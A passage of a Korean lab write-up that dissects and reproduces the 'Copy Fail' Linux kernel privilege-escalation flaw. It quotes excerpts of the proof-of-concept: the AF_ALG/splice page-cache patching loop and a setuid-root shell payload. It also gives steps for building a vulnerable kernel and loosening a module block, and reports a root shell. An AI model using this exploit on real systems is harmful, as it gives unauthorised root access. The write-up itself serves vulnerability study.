5. **다음 실행 경로로 전환:** 루프 이후 파일 디스크립터를 닫고 'page cache mutated; exec’ing target'을 출력한 뒤 셸을 통한 대상 명령 실행을 시도한다. 이 단계는 **root 획득 여부 검사**가 아니라 다음 실행 흐름으로 넘어가는 동작이다.

**중요한 C/Linux 개념**

- `open(O_RDONLY)`는 **읽기 전용 파일 디스크립터**를 얻는 것이다. Copy Fail의 특이점은 일반적인 파일 쓰기 API를 사용하지 않고도 커널 내부에서 캐시 페이지가 변경될 수 있다는 점이다.
- `size_t`는 바이트 크기 등을 나타내는 부호 없는 타입이고, `off_t`는 파일 내 위치를 나타내는 타입이다.
- `errno`는 시스템 호출 등의 실패 원인을 전달하는 값이다. 성공 후에는 0으로 자동 초기화된다고 가정하면 안 된다.
- `execl()` 계열은 **현재 프로세스의 실행 이미지를 교체**한다. 새로운 자식 프로세스를 만드는 `fork()`와 다르다. 다만 이 소스는 셸에 명령을 전달하므로, 셸 내부의 실제 프로세스 진행은 셸의 동작에 따라 달라질 수 있다.

**실제 로그의 해석**

```
[+] target:    /usr/bin/su
[+] command:   sh -c 'su'
[+] payload:   720 bytes (180 iterations)
[+] page cache mutated; exec'ing target
```

이 마지막 줄 **하나만으로는 root 성공을 확정하지 않는다.** 사용자가 실제로 확인한 뒤이은 `uid=0(root)`, `id -u=0`, `id -ru=0` 결과가 최종 성공의 결정적 증거다(5.8절).

### 3.7 payload.c

[실제 payload.c](https://github.com/tgies/copy-fail-c/blob/main/payload.c)

`payload.c`는 `exploit.c`보다 훨씬 짧다. 이 파일은 커널 취약점을 직접 호출하거나 대상 파일을 고르는 프로그램이 아니다. **이미 높은 유효 권한으로 실행된 경우에 셸 프로세스가 그 권한을 사용할 수 있도록 만드는 프로그램**이다.

**주요 구성요소와 의미**

| 요소 | 역할 |
| --- | --- |
| `#include "nolibc/nolibc.h"` | 크기가 작은 독립 실행 파일을 만들기 위한 최소 C 환경과 시스템 호출 인터페이스 사용 |
| `main(void)` | 이 ELF가 실행될 때 시작되는 진입 함수 |
| `argv[]` | 뒤에서 실행할 셸의 인자 배열 |
| `envp[]` | 뒤에서 실행할 프로그램에 전달할 환경 변수 배열. 현재 코드는 비어 있는 환경을 사용 |
| `syscall()` | 표준 C 라이브러리 함수 대신 시스템 호출 번호를 통해 커널 기능 요청 |
| `setgid`, `setuid` | 실행 중인 프로세스의 그룹/사용자 식별자를 변경하는 기능 |
| `execve()` | 현재 프로세스의 실행 이미지를 다른 프로그램으로 교체 |
| `return 1` | 마지막 실행 이미지 교체에 실패한 경우의 종료 경로 |

**왜 이미 root 권한으로 시작해야 하는가?**

`setuid(0)`을 소스에 적는다고 모든 사용자가 root가 되는 것은 아니다. 이 시스템 호출은 권한 검사를 받는다. 일반 사용자 프로세스에서 권한 없이 호출하면 실패할 수 있다. 원래 PoC가 기대하는 것은 **변조된 캐시에서 읽은 ELF가 root 소유 SetUID 파일의 권한 문맥으로 시작하는 상황**이다.

이후 `payload.c`는 사용자 및 그룹 자격을 root로 전환하는 시스템 호출을 수행하고 셸 실행을 시도한다. 이때 실제 UID(RUID)와 유효 UID(EUID)는 다를 수 있다. 이번 실습 결과는 `id -u=0`뿐만 아니라 `id -ru=0`도 확인했으므로 **유효 UID와 실제 UID가 모두 0인 셸**을 관찰한 것이다.

**왜 일반 glibc 대신 nolibc를 사용하는가?**

일반적인 동적 링크 프로그램은 동적 링커와 라이브러리 등 실행 환경이 필요하다. 이 프로젝트는 아주 작은 **정적·독립 실행 가능 ELF**가 필요하므로 `nolibc/`를 사용한다. `nolibc`는 아키텍처별 시스템 호출 래퍼와 최소 시작 코드를 제공한다. 그 덕분에 `payload.c`에 특정 CPU용 어셈블리를 직접 작성하지 않고도 여러 아키텍처를 대상으로 컴파일할 수 있다.

**페이로드와 익스플로잇의 결정적 차이**

- `exploit`: 취약한 커널 기능을 이용하는 **제어 프로그램**. 처음에는 일반 사용자 권한으로 실행된다.
- `payload`: 변조된 특권 실행 이미지에서 실행될 것으로 기대하는 **독립 ELF의 동작**을 정의한다.
- `payload.o`: 그 독립 ELF 자체의 **데이터 복사본을 담는 링커 중간 결과물**이다.

### 3.8 utils.c

[실제 utils.c](https://github.com/tgies/copy-fail-c/blob/main/utils.c) · [함수 선언 utils.h](https://github.com/tgies/copy-fail-c/blob/main/utils.h)

이 파일은 **검증기 `vulnerable`과 최종 권한 상승 PoC가 공통으로 사용하는 코드**다. 그래서 `vulnerable.c`에 성공한 파일 캐시 변조와 `exploit.c`에서 쓰이는 메커니즘을 연결해서 이해할 수 있다.

#### patch_chunk()

`patch_chunk(int file_fd, off_t offset, const unsigned char four_bytes[4])`

| 인자 | 뜻 |
| --- | --- |
| `file_fd` | 커널에 전달할 대상 파일의 디스크립터 |
| `offset` | 대상 파일의 논리적 위치 |
| `four_bytes` | 해당 호출이 처리하려는 짧은 바이트 배열 |
| 반환값 | 원시 기능이 프로그램상 완료되면 0, API 호출 등의 실패는 -1 |

**내부 구조를 읽는 순서**

| 구간 | 관찰할 함수 / 자료형 | 목적 |
| --- | --- | --- |
| 준비 | `socket()`, `sockaddr_alg`, `bind()` | Linux 커널 Crypto API의 AEAD 인터페이스와 알고리즘을 선택 |
| 매개변수 | `setsockopt()` | 암호화 작업에 필요한 키와 인증 관련 설정을 전달 |
| 작업 소켓 | `accept()` | 개별 암호화 요청을 처리할 연결을 마련 |
| 요청 메시지 | `iovec`, `msghdr`, `cmsghdr` | 데이터 버퍼와 별도의 제어 메타데이터를 구성 |
| 요청 전달 | `sendmsg()` | 복호화 작업에 필요한 요청을 커널로 전달 |
| 데이터 경로 | `pipe()`, `splice()` | 파일에서 출발한 페이지가 암호화 입력 측으로 전달되는 경로 형성 |
| 처리 및 결과 | `recv()` | 커널의 AEAD 처리 및 결과 수신 경로에 진입 |
| 자원 정리 | `close()`, `free()` | 소켓·파이프·임시 버퍼 해제 |

**관련 구조체의 개념**

- `sockaddr_alg`: 어떤 암호 알고리즘을 사용할지 커널 AF_ALG 소켓에 알리는 주소형 구조체.
- `iovec`: 데이터의 **시작 주소와 길이**를 담는 구조체.
- `msghdr`: `sendmsg()` 등에 전달하는 메시지 기술 구조체. 실제 데이터와 제어 메시지를 함께 담는다.
- `cmsghdr`: 메시지에 포함하는 제어 정보의 머리글. 일반 데이터와 별도로 암호화 작업의 속성을 지정하는 데 쓰인다.
- `af_alg_iv`: 암호화 IV 관련 정보를 전달하는 자료형.
- `AUTHENC_KEY`: 선택한 암호화 조합의 키 자료 형식을 만족시키는 데이터. **이 문제의 본질은 암호 키를 알아내는 것이 아니라 잘못된 메모리 쓰기 경로**라는 사실을 기억한다.

**Root Cause 연결**

```
사용자 프로그램의 파일 읽기 요청
             ↓
       Page Cache의 파일 페이지
             ↓
          splice 경로
             ↓
    AF_ALG의 암호화 입력 데이터
             ↓
취약 커널: 입력/출력 scatterlist 별칭
             ↓
authencesn 전처리의 메모리 쓰기
             ↓
       의도하지 않은 캐시 변조
```

정상적인 암호화 요청에서는 입력과 출력 버퍼의 소유권·쓰기 가능 여부가 일치해야 한다. 그런데 Copy Fail의 취약 경로에서는 읽기 전용 파일에서 온 Page Cache 페이지가 암호화 처리의 쓰기 대상처럼 취급될 수 있었다. 앞서 2장에 정리한 `src`/`dst` 별칭 관계와 연결되는 부분이다.

**코드에서 특히 주의할 부분 — 반환값과 실제 성공은 다를 수 있다.**

`patch_chunk()`가 0을 반환했다는 것은 함수 내부의 체크된 단계들이 실패로 처리되지 않았다는 의미다. 반면 `recv()`의 반환값 자체는 이 구현에서 별도로 검사하지 않는다. 따라서 `page cache mutated`라는 출력만으로 실제 파일 캐시가 바뀌었다고 **독립적으로 증명되는 것은 아니다.** `vulnerable`은 파일 내용을 다시 읽어 검증했고, 이번 `exploit`은 뒤이은 root UID 확인을 통해 최종 효과를 입증했다.

#### explain_patch_failure()

이 함수는 실제 메모리 변조를 실행하지 않는다. `patch_chunk()`가 실패할 때 일부 `errno`값을 사람이 이해하기 쉬운 문장으로 바꿔 알려주는 **진단 함수**다.

- `EAFNOSUPPORT`: AF_ALG 소켓 인터페이스 자체가 없는 경우 등.
- `ENOENT`: 요청한 알고리즘 템플릿이 사용 가능한 상태가 아닌 경우 등.

이 두 오류는 반드시 '커널이 패치되어 안전하다'는 뜻이 아니다. 모듈 미로드·접근 차단 상태에서도 발생할 수 있어 **환경 문제와 보안 패치 여부를 분리**해야 한다.

### 3.9 vulnerable.c 분석

[실제 vulnerable.c](https://github.com/tgies/copy-fail-c/blob/main/vulnerable.c)

이 프로그램은 최종 공격용 `exploit.c`와 달리 **임시 파일의 Page Cache 변경 여부만 독립적으로 검증**한다. 그래서 같은 커널 취약 경로에 접근하더라도 시스템 특권 실행 파일을 건드리지 않는다.

- `PAYLOAD[]`: 확인하려는 짧은 문자열 `"vulnerable"`.
- `init_file()`: 실습용 `testfile`을 생성하고 처음 내용을 `init`으로 초기화.
- `check_file()`: 파일을 다시 읽고 기대 문자열과 일치하는지 확인.
- `main()`: 생성 → 초기값 출력 → 공통 함수 호출 → 변경된 내용 확인 → 테스트 파일 삭제 및 종료 코드 반환.

```
testfile 생성 → "init" 읽기
       ↓
utils.c의 공통 함수 이용
       ↓
testfile 다시 읽기 → "vulnerable" 확인
       ↓
[!] VULNERABLE / 종료 코드 100
```

실습 기록의 `Checker exit code: 100`은 **검증기 성공**을 뜻하며, 이 결과만으로 root 셸을 얻은 것은 아니다. 이번에는 이와 별개로 `exploit`에 의한 root 권한 상승까지 관찰했다.

### 3.10 exploit-passwd.c

[실제 exploit-passwd.c](https://github.com/tgies/copy-fail-c/blob/main/exploit-passwd.c)

이 파일은 `exploit.c`에 링크되는 부품이 아니라 **별도의 실행 프로그램**이다. 실행 파일의 캐시를 교체하는 방식과 달리, 계정 정보를 담은 `/etc/passwd`의 캐시된 UID 필드가 변경되었을 때 어떤 보안 결과가 발생하는지 보이는 변형이다.

| 비교 | `exploit.c` | `exploit-passwd.c` |
| --- | --- | --- |
| 대상 | root 소유 SetUID 실행 파일 | `/etc/passwd`의 계정 정보 |
| 변경하려는 내용 | 실행 코드 이미지 | 사용자 UID 필드 값 |
| 별도 ELF 페이로드 | 내장함 | 필요하지 않음 |
| 공유 모듈 | `utils.o` | `utils.o` |
| 후속 경로 | 변경된 실행 코드의 특권 실행 | 변경된 계정 정보가 인증·권한 설정 과정에서 참조됨 |
| 본 실습 | **C `exploit` 실행 성공** | **직접 실행하지 않음** |

코드 안에는 `getuid()`, `getpwuid()`를 이용해 현재 계정 정보를 확인하는 부분과, 대상 텍스트의 UID 필드를 찾는 `find_uid_offset()` 보조 함수가 있다. 이는 **계정 정보 조작을 통한 별도의 LPE 변형**이며, `payload.c`와 혼동해서는 안 된다.

### 3.11 부가 파일

| 파일 | 실제 용도 | 누가 사용하는가 |
| --- | --- | --- |
| `nolibc/` | 아키텍처별 시스템 호출, 최소 실행 시작 코드, 작은 C 라이브러리 대체 기능 | `payload.c`의 빌드 |
| `compat.h` | 일부 이전 Linux UAPI 헤더에서 부족한 타입·구조체 정의 보완 | `payload` 빌드 단계 |
| `utils.h` | 공통 함수 선언을 담는 헤더, 중복 정의 방지용 include guard 사용 | `utils.c`, `exploit.c`, `vulnerable.c`, `exploit-passwd.c` |
| `utils.o` | `utils.c`를 컴파일한 목적 파일 | 각 실행 파일의 링크 단계 |
| `payload.o` | 내장용 ELF 바이너리 데이터 목적 파일 | 최종 `exploit` 링크 단계 |
| `README.md`, `README.ko.md` | 설치·개념·활용을 설명하는 문서 | 개발자·연구자 |
| `LICENSE-*` | 소스 코드 라이선스 | 배포·재사용 시 확인 |
| `CITATION.cff` | 공개 프로젝트 인용 정보 | 보고서·논문 등 |
| `repro_visual.log` | 이번 실습에서 별도로 만든 출력 로그 | 실습 기록, **프로젝트의 기본 소스 파일은 아님** |

**`compat.h`는 런타임 취약점 자체의 핵심 원인이 아니다.** 빌드 시 필요한 커널 사용자 API 헤더들의 호환성을 맞추는 보조 도구일 뿐이다.

### 3.12 전체 실행 흐름

```
                        최종 exploit 실행
                                │
                     exploit.c / main()
                                │
                 ┌──────────────┴───────────────┐
                 ▼                              ▼
          내장 payload 데이터            utils.o 공통 함수
                 │                              │
                 │                        patch_chunk()
                 │                              │
                 │                    커널의 취약한 Crypto 경로
                 │                              │
                 └──────────────┬───────────────┘
                                ▼
                  SetUID 실행 이미지 변경 시도
                                │
                                ▼
                  특권 실행 경로에서 payload 동작
                                │
                                ▼
                    셸의 사용자 자격 변화
                                │
                                ▼
            실측: id -u=0 / id -ru=0 / uid=0(root)
```

이 흐름은 서로 다른 종류의 증거를 연결한다.

1. **소스에서 확인:** `exploit.c`가 공통 함수와 내장 페이로드를 함께 사용하고, `payload.c`는 셸 실행 및 사용자 자격 변경 동작을 정의한다.
2. **실행 로그에서 확인:** `exploit`이 720바이트·180회 처리 및 캐시 변조 완료 메시지를 출력했다.
3. **권한 정보에서 확인:** 공격 전 일반 사용자 UID 1000과 달리 이후 셸의 실제·유효 UID가 모두 0이었다.
4. **별도 검증 필요:** 동일한 결과가 패치된 커널에서 차단되는지, 그리고 디스크 원본과 캐시가 어떤 상태로 남는지.

**코드 원문 참고:** [exploit.c](https://github.com/tgies/copy-fail-c/blob/main/exploit.c) · [payload.c](https://github.com/tgies/copy-fail-c/blob/main/payload.c) · [utils.c](https://github.com/tgies/copy-fail-c/blob/main/utils.c) · [Makefile](https://github.com/tgies/copy-fail-c/blob/main/Makefile) · [vulnerable.c](https://github.com/tgies/copy-fail-c/blob/main/vulnerable.c)

### 3.13 핵심 코드

이 절에서는 **CVE의 동작과 실습 결과를 이해하는 데 필요한 코드만** 발췌했다. 원본 실행문을 주석으로 바꾸거나 의사코드로 재작성하지 않았다. 설명할 줄 **바로 위에 번호 주석**을 추가하고, 아래에서 같은 번호로 설명한다.

코드 블록 사이에는 실제 코드가 생략되어 있으므로, 아래 발췌를 합쳐도 **완전한 실행 파일로 빌드되는 형태는 아니다.** 전체 구현은 각 파일의 원본 링크에서 확인할 수 있다.

#### A. exploit.c

[원본 코드](https://github.com/tgies/copy-fail-c/blob/main/exploit.c) · 전체 실행 흐름을 제어하는 파일

**① 내장 페이로드 참조**

```c
// [A1] 링커가 생성한 페이로드의 시작·끝 주소
extern const unsigned char _binary_payload_start[];
extern const unsigned char _binary_payload_end[];
#define PAYLOAD       (_binary_payload_start)
#define PAYLOAD_LEN   ((size_t)(_binary_payload_end - _binary_payload_start))
```

**② 크기 계산과 공통 함수 호출**

```c
// [A2] 페이로드 크기와 처리 횟수 계산
size_t len = PAYLOAD_LEN;
size_t iters = (len + 3) / 4;

// [A3] 데이터를 4바이트 단위로 나눔
for (off_t off = 0; (size_t)off < len; off += 4) {
    unsigned char window[4] = { 0, 0, 0, 0 };
    size_t take = (len - (size_t)off >= 4) ? 4 : len - (size_t)off;
    memcpy(window, PAYLOAD + off, take);

    // [A4] 실제 처리 기능은 utils.c의 patch_chunk()에 있음
    if (patch_chunk(file_fd, off, window) < 0) {
        explain_patch_failure(errno);
        fprintf(stderr, "patch_chunk failed at offset %lld\n",
                (long long)off);
        return 1;
    }
}
```

**번호별 설명**

1. **[A1]** `payload.o`에 포함된 ELF 데이터의 시작과 끝을 가리킨다. 두 주소의 차이가 데이터 크기다.
2. **[A2]** 4바이트 단위로 나눈 횟수를 계산한다. 실습에서는 720바이트이므로 180회였다.
3. **[A3]** `window` 배열에 현재 처리할 바이트를 복사한다. 마지막 데이터가 4바이트 미만이면 `take`로 길이를 조정한다.
4. **[A4]** `patch_chunk()`는 이 저장소에서 만든 함수이며, 실제 AF_ALG·`splice()` 처리 코드는 `utils.c`에 있다.

#### B. utils.c

[원본 코드](https://github.com/tgies/copy-fail-c/blob/main/utils.c) · 커널 암호화 인터페이스를 호출하는 핵심 파일

**① AF_ALG 소켓과 알고리즘 선택**

```c
// [B1] Linux 커널 Crypto API에 접근하는 소켓
ctrl_sock = socket(AF_ALG, SOCK_SEQPACKET, 0);

// [B2] 사용할 AEAD 알고리즘 지정
struct sockaddr_alg sa = { .salg_family = AF_ALG };
memcpy(sa.salg_type, "aead", 5);
memcpy(sa.salg_name, "authencesn(hmac(sha256),cbc(aes))",
       sizeof "authencesn(hmac(sha256),cbc(aes))");
```

**② 파일 데이터가 암호화 소켓으로 전달되는 부분**

```c
// [B3] 파일 → 파이프 → AF_ALG 작업 소켓
off_t src_off = 0;
if (splice(file_fd, &src_off, pipefd[1], NULL, splice_len, 0) < 0) {
    perror("splice(file -> pipe)");
    goto out;
}
if (splice(pipefd[0], NULL, op_sock, NULL, splice_len, 0) < 0) {
    perror("splice(pipe -> op_sock)");
    goto out;
}

// [B4] 커널 암호화 처리의 결과 수신
unsigned char *sink = malloc(8 + (size_t)offset);
if (sink) {
    (void)recv(op_sock, sink, 8 + (size_t)offset, 0);
    free(sink);
}
```

**번호별 설명**

1. **[B1]** `AF_ALG`는 네트워크 통신용이 아니라 Linux 커널의 암호화 기능을 사용하는 소켓 인터페이스다.
2. **[B2]** `sockaddr_alg`에 `authencesn`을 포함한 암호화 알고리즘 이름을 설정한다. 실제 원문에서는 이어서 `bind()`, `setsockopt()`, `accept()`로 요청을 준비한다.
3. **[B3]** `splice()`는 파일의 Page Cache 페이지 참조를 커널 내부의 암호화 입력으로 전달할 수 있다. **취약점은 splice 자체가 아니라 그 페이지가 출력 SGL에 잘못 연결되는 커널 처리에서 발생한다.**
4. **[B4]** `recv()`에서 암호화 결과를 수신한다. 원본은 반환값을 별도로 확인하지 않으므로 이 호출이 끝났다는 사실만으로 Page Cache 변경을 입증할 수 없다.

#### C. payload.c

[원본 코드](https://github.com/tgies/copy-fail-c/blob/main/payload.c) · 별도 ELF로 빌드되는 페이로드

```c
#include "nolibc/nolibc.h"

int main(void) {
    // [C1] 실행할 셸의 인자와 환경 변수
    char *argv[] = { "sh", (char *)NULL };
    char *envp[] = { (char *)NULL };

    // [C2] 사용자·그룹 식별자 변경 요청
    syscall(__NR_setgid, 0);
    syscall(__NR_setuid, 0);

    // [C3] 현재 프로세스 이미지를 셸로 교체
    execve("/bin/sh", argv, envp);
    return 1;
}
```

**번호별 설명**

1. **[C1]** `argv`는 명령줄 인자 배열, `envp`는 환경 변수 배열이다.
2. **[C2]** 권한이 있는 실행 문맥에서 식별자를 변경하도록 시스템 호출을 요청한다. 호출문 자체가 권한 상승을 보장하지는 않는다.
3. **[C3]** `execve()`는 현재 프로세스의 실행 이미지를 교체하며, 성공하면 다음 줄로 돌아오지 않는다.

#### D. vulnerable.c

[원본 코드](https://github.com/tgies/copy-fail-c/blob/main/vulnerable.c) · 시스템 파일을 수정하지 않고 취약 여부를 확인하는 검증기

**① 검증할 문자열**

```c
// [D1] 실험용 파일에서 관찰하려는 문자열
static const char PAYLOAD[] = "vulnerable";
#define PAYLOAD_LEN (sizeof PAYLOAD - 1)
```

**② 실제 파일 내용으로 판정**

```c
// [D2] 파일을 다시 읽은 값과 기대 문자열 비교
return total >= (ssize_t)PAYLOAD_LEN &&
       memcmp(buf, PAYLOAD, PAYLOAD_LEN) == 0;
```

```c
// [D3] 테스트 파일을 다시 읽고 삭제
int vulnerable = check_file(target);
unlink(target);

if (vulnerable) {
    fprintf(stderr, "[!] VULNERABLE\n");
    return 100;
}
```

**번호별 설명**

1. **[D1]** 실험용 `testfile`의 초깃값은 `init`이고, 변경 후 기대 값은 `vulnerable`이다.
2. **[D2]** `memcmp()`로 실제 파일에서 읽힌 바이트가 기대 값과 일치하는지 확인한다.
3. **[D3]** 재읽기 검사에 성공하면 종료 코드 `100`을 반환한다. 우리 실습에서 확인한 `100`은 **캐시 변조의 증거**이며 root 권한 자체의 증거는 아니다.

#### E. Makefile

[원본 코드](https://github.com/tgies/copy-fail-c/blob/main/Makefile) · 빌드 구성에서 필요한 규칙만 발췌

```
# [E1] 페이로드 ELF → 데이터 목적 파일
payload.o: payload $(PAYLOAD_OBJ_DEPS)
	$(PAYLOAD_OBJ_CMD)

# [E2] 공통 함수 컴파일
utils.o: utils.c utils.h
	$(CC) $(CFLAGS) -c $< -o $@

# [E3] 최종 실행 파일
exploit: exploit.c utils.o payload.o
	$(CC) $(CFLAGS) $(LDFLAGS) -static -o $@ $^

# [E4] 별도 취약점 검증기
vulnerable: vulnerable.c utils.o
	$(CC) $(CFLAGS) $(LDFLAGS) -static -o $@ $^
```

**번호별 설명**

1. **[E1]** 먼저 만든 `payload` ELF가 `payload.o` 안에 **데이터**로 들어간다.
2. **[E2]** `utils.o`에는 `patch_chunk()` 등의 **함수 코드**가 들어간다.
3. **[E3]** `exploit`에는 제어 프로그램, 공통 함수, 페이로드 데이터가 함께 링크된다.
4. **[E4]** `vulnerable`은 `payload.o` 없이 따로 빌드되는 검증기다.

**실습 결과와 연결:** `vulnerable`은 `init → vulnerable`, 종료 코드 `100`으로 Page Cache 변조를 확인했고, 최종 실행 후 셸의 `uid=0(root)`, `id -u=0`, `id -ru=0`으로 권한 상승을 확인했다. 전체 소스는 위 원문 링크에서 확인할 수 있다.

## 4. 실습 환경

VMware에서 사용한 운영체제, 커널, 계정 및 사전 조건은 아래 표에 정리했다.

| 항목 | 실제 실습에서 확인된 내용 |
| --- | --- |
| 가상화 | VMware Workstation Pro |
| 게스트 | Ubuntu 24.04.4 LTS, amd64 |
| 최초 커널 | `7.0.0-43-generic`, 패키지 `7.0.0-43.43~24.04.1` |
| 취약 실험 커널 | 직접 빌드·설치한 **Linux 6.18.21** |
| 초기 VM 자원 | CPU 2코어, RAM 4GiB, 디스크 40GB로 설정 후 용량 확장 |
| 빌드 결과 | `linux-image-6.18.21_6.18.21-5_amd64.deb` 등 |
| 네트워크 | 다운로드 단계에서 임시 사용, 취약 동작 검증 단계에서 차단 |
| 복구 | Ubuntu 초기·재현 전·빌드 완료 시점 등의 VMware 스냅샷 |
| 초기 완화 조치 | `/etc/modprobe.d/disable-algif_aead.conf`의 `install algif_aead /bin/false` |
| 사용자 권한 | `cve` 계정, UID/EUID 1000 |

**환경 해석:** Ubuntu 24.04.4 설치 자체만으로 CVE 재현이 가능한 것이 아니다. 처음 설치한 7.0 계열은 수정 구조와 모듈 차단 상태를 확인했으므로, 별도로 **수정 이전 Linux 6.18.21을 소스에서 빌드**했다. 실험 당시에는 새로운 커널로 실제 부팅한 사실을 `uname -r`로 확인했다.

## 5. 재현 과정

환경 확인부터 취약 커널 빌드, 검증기 실행, root 권한 상승 확인까지 실제로 수행한 순서다.

### 5.1 초기 환경 점검

```bash
cat /etc/os-release
uname -r
modinfo algif_aead
lsmod | grep algif_aead
modprobe -n -v algif_aead
cat /etc/modprobe.d/disable-algif_aead.conf
```

최초 커널: `7.0.0-43-generic`. `modinfo`에는 모듈 파일이 보였지만 `modprobe -n -v` 결과는 `install /bin/false`였고, 설정 파일 주석에는 **CVE-2026-31431([copy.fail](https://copy.fail))로 인한 차단**이 명시되어 있었다. 일반 AF_ALG 소켓 생성은 성공했지만 해당 AEAD 알고리즘 바인딩은 `ENOENT(2)`로 실패했다.



### 5.2 관련 커밋 확인

```bash
cd ~/CVE-2026-31431/linux
git show --stat 72548b093ee3
git show 72548b093ee3 -- crypto/algif_aead.c
git show --stat a664bf3d603d
git show a664bf3d603d -- crypto/algif_aead.c
nl -ba crypto/authencesn.c | sed -n '270,295p'
```

확인한 결과:

- `72548b093ee3`: In-place 암호화 처리가 도입된 2017년 커밋.
- `a664bf3d603d`: Out-of-place 복구.
- `crypto/authencesn.c` 281~290줄 부근: `src==dst` 분기에서 `memcpy_to_sglist`의 4바이트 쓰기.
- 패치 파일 `algif_aead_vuln.patch`, `algif_aead_fix.patch` 및 비교 소스를 별도 보관.

### 5.3 취약 커널 빌드

```bash
curl -fLO https://cdn.kernel.org/pub/linux/kernel/v6.x/linux-6.18.21.tar.xz
tar -xf linux-6.18.21.tar.xz
cd ~/linux-6.18.21
make kernelversion
grep -n 'aead_request_set_crypt' crypto/algif_aead.c
```

`make kernelversion`은 `6.18.21`을 출력했고, 해당 소스의 `algif_aead.c`에는 `rsgl_src`를 사용한 기존 처리 호출이 남아 있었다.

빌드 도구 및 설정:

```bash
sudo apt install -y build-essential bc bison flex libssl-dev libelf-dev libncurses-dev dwarves cpio rsync fakeroot dpkg-dev
cp /boot/config-$(uname -r) .config
scripts/config --set-str SYSTEM_TRUSTED_KEYS ""
scripts/config --set-str SYSTEM_REVOCATION_KEYS ""
make olddefconfig
make -j2 bindeb-pkg
```

실제로는 여러 번 재시도했다. 추가 의존성 `debhelper`, `libdw-dev`, `gawk`가 필요했고, BTF 생성 오류 발생 시 `DEBUG_INFO_BTF` 설정을 끈 뒤 다시 빌드했다. 가상 디스크 공간 부족으로 `ld: final link failed: 장치에 남은 공간이 없음` 오류가 나서 VMware 디스크와 Ubuntu 파티션/파일시스템을 확장했다. 정상 파일은 유지하고 전체 클린 빌드를 반복하지 않았다.

최종적으로 `linux-image-6.18.21_6.18.21-5_amd64.deb`(약 106MB로 확인), `linux-headers-6.18.21`, `linux-libc-dev`, 디버그용 이미지 패키지를 생성했다.



### 5.4 커널 설치·부팅

```bash
sudo apt install -y ~/linux-headers-6.18.21_6.18.21-5_amd64.deb ~/linux-image-6.18.21_6.18.21-5_amd64.deb
sudo update-grub
```

`update-initramfs`에서 `/boot/initrd.img-6.18.21`이 생성되고 GRUB에 기존 7.0과 6.18.21이 모두 등록됐다. 처음에는 GRUB 화면이 숨겨져 기본 커널 7.0으로 부팅되었다.

`/etc/default/grub`의 `GRUB_DEFAULT=saved`, `GRUB_TIMEOUT_STYLE=menu`, `GRUB_TIMEOUT=10`을 설정하고, 등록된 커널 메뉴 항목을 확인한 뒤 다음 부팅을 6.18.21로 선택했다.

```bash
sudo grub-reboot 'Advanced options for Ubuntu>Ubuntu, with Linux 6.18.21'
sudo reboot
uname -r
```

### 5.5 AF_ALG 접근 확인

취약 커널로 부팅하더라도 Ubuntu의 `install /bin/false` 정책은 그대로 적용되어 초기에는 `authencesn` 바인딩이 실패했다. 별도 격리된 복제 VM에서만 실험 목적으로 `algif_aead`를 일회성 로드한 뒤 모듈 로드와 AEAD 바인딩에 성공한 것을 확인했다. 이 조치는 **운영 환경에서 권장되지 않으며 보안 완화를 약화시킨다.**

중요한 차이는 아래와 같다.

| 검사 | 차단 상태 | 실험에서 접근 가능한 상태 |
| --- | --- | --- |
| `socket(AF_ALG, ...)` | 성공 가능 | 성공 |
| `bind(("aead", "authencesn(...)"))` | `ENOENT` | 성공 확인 |
| 실제 취약 처리 경로 | 도달하지 못함 | 테스트 가능 |
| 패치 적용 여부 | 바인딩 실패만으로 판단 불가 | 파일 변조 여부를 별도로 검사 |

